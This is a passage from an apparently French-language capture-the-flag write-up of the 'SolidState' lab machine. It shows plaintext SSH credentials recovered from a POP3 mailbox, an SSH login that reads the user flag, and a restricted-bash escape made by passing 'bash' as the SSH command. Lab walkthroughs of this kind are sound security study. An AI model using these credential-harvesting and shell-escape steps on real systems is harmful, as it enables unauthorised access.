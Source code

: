```bash

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

.
EXIT
-ERR
QUIT
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
```
Dans le deuxième email, on trouve des credentials en clair:
mindy : `P@55W0rd1!2@`

### SSH Connection to mindy account : user flag
On se connecte en ssh à **mindy** et on récupère le flag utilisateur **user.txt**.
```bash
$ ssh mindy@10.10.10.51
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142

mindy@solidstate:~$ cat user.txt 
c00a.....c6b2
```

## Privilege Escalation

### mindy : restricted bash
Par défaut, on arrive dans un restricted shell. Presque aucune action n'est autorisé...
```bash
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cd ..
-rbash: cd: restricted
mindy@solidstate:~$ /bin/ls
-rbash: /bin/ls: restricted: cannot specify `/' in command names
```
Mais grâce à ssh, on peut préciser une commande à executer au lancement. Par exemple, lui demander de lancer un bash, ce qui permet de bypasser le lancement du restricted bash !
```bash
$ ssh mindy@10.10.10.51 bash                 
mindy@10.10.10.51's password: 
ls
bin
```